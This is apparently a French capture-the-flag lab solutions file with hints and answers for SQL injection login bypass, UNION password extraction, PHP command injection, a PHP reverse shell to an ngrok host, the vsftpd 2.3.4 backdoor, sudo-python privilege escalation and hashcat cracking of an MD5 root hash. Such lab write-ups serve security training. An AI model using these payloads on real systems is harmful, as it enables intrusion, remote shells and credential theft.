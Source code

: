 # Injection SQL 1 - Passer le login

mettre " pour avoir une erreur


* Solution :
    Mettre en username : " OR 1=1 OR ""="

Mais on est login en tant que "admin", pas l'autre user !

* Indice 1 :
    Injection SQL

* Indice 2 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"

# Injection SQL 2 - Récupérer le mot de passe de l'autre utilisateur

* Indice 1 : 
    SELECT * FROM data.users WHERE username = "$username" AND password="$password"
    (dur sans connaître le nom de la base !)

SELECT * FROM data.users WHERE username = "a" AND password="" UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin"

* Solution :

    Mettre en user : (n'importe quoi)
    Mettre en mdp : " UNION SELECT 1,password as username,2 FROM data.users WHERE username!="admin

# RCE PHP - Ping

* Solution :

    ;ls
    ;whoami

reverse shell : https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
nc -l -p 12345 
ngrok tcp 12345
php -r '$sock=fsockopen("2.tcp.ngrok.io",15705);exec("/bin/sh -i <&3 >&3 2>&3");'

upgrade : 
python3 -c 'import pty;pty.spawn("/bin/bash")';

# vstfp:2.3.4 backdoor

* Solution :

    ftp 10.1.0.188
    Connected to 10.1.0.188.
    220 (vsFTPd 2.3.4)
    Name (10.1.0.188:root): ANYTHINGHERE:)
    331 Please specify the password.
    Password:
    ^C
    421 Service not available, remote server has closed connection

    nc -vn 10.1.0.188 6200
    Connection to 10.1.0.188 6200 port \[tcp/*\] succeeded!

    ls ~
    flag.txt

    cat ~/flag.txt


# PrivEsc : Sudo
sudo -l

User www-data may run the following commands on machine1:
    (root) NOPASSWD: /usr/bin/python3

* Solution :
    sudo python3 -c "import os;os.system('whoami')"
    sudo python3 -c "import os;os.system('bash')"

# Hash root
ls ~
pense_bete.txt

cat ~/pense_bete.txt
Pense-bête pour le mdp root de l'autre machine:
dc15d3f5ab9656bc55f7a2f5d1e3a0a5

* Solution :

    hashcat -m0 -O flag /usr/share/wordlists/rockyou.txt
    (hashcat -m0 --show flag)